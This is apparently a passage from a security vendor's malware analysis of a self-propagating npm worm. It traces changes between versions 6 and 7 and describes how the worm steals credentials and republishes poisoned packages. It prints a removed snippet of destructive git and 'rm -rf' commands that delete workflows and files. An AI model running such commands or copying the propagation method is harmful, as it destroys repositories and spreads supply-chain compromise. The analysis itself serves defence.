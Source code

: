 - Version 6 is more succinct overall. It reduces noise and acts more stealthily by removing helper logs and adding a skip switch on the filesystem scan, which is the loudest step of the campaign. It also renames some variables and now exfiltrates the GitHub username.

### V6 v. V7

Between [Version 6](https://socket.dev/npm/package/wdio-web-reporter/files/0.1.3/bundle.js), `46faab8ab153fae6e80e7cca38eab363075bb524edd79e42269217a083628f09`, and [Version 7](https://socket.dev/npm/package/@operato/headroom/files/9.0.36/bundle.js), `b74caeaa75e077c99f7d44f46daaf9796a3be43ecf24f2a1fd381844669da777`, the threat actor only removes this:

```chakra-code css-n8z13r
# Convert to a regular repo temporarily to make changes\\n
git config --unset core.bare\\n
git reset --hard\\n\\n
# Remove .github/workflows directory if it exists and commit\\n    if [[ -d ".github/workflows" ]]; then\\n
rm -rf .github/workflows\\n
git add -A\\n
git commit -m "Remove GitHub workflows directory"\\n
fi\\n\\n
# Convert back to bare repo for mirroring\\n
git config core.bare true\\n
rm -rf *\\n\\n
```

Version 6 used both the bare-repo filesystem manipulation technique **and** workflow-creation/exfil logic present in the above snippet. Version 7 removed the filesystem ( `git config` / `rm -rf`) technique and retained the workflow/Actions + GitHub-API + webhook exfiltration behavior. This evasion is less noisy, and no longer leaves obvious forensic artifacts.

Throughout each of the versions, the actor tries to become stealthier and more efficient. Notably, there is no cryptowallet draining or obfuscation, which is different than the campaign [targeting `Nx` npm packages](https://socket.dev/blog/nx-packages-compromised) from a few weeks ago.

### Worm Behavior

The malware can self-propagate by automatically stealing credentials and then using those credentials to insert workflows into other repos. It automatically modifies and republishes packages as part of its propagation chain. However, it cannot self-propagate without those credentials, meaning eventually it will run out of credentials to steal from the packages it’s compromised.

Once it steals credentials and gains write and publish capabilities from those credentials, it obtains the target package artifact, unpacks the package, and then creates or replaces the package’s `bundle.js` file with its own malicious `bundle.js`. It also may edit the `package.json` file to add a postinstall script. Then it repacks the tarball and publishes the poisoned version. Now, when downstream users install the package, the malicious postinstall or injected `bundle.js` executes and can run the same discovery and publish code on the new host. Harvested credentials are used to target other repos and packages.

This is an example `package.json` from the first version, in `rxnt-authentication`:

```chakra-code css-n8z13r
{
  "name": "rxnt-authentication",
  "version": "0.0.3",
  "description": "Authentication helper methods for RXNT Authentication in Node APIs",
  "main": "dist/index.js",
  "types": "dist/indext.d.ts",
  "files": [\
    "src",\
    "dist"\
  ],
  "repository": {
    "type": "git",
    "url": "<https://github.com/RXNT/common.git>",
    "directory": "rxnt-authentication"
```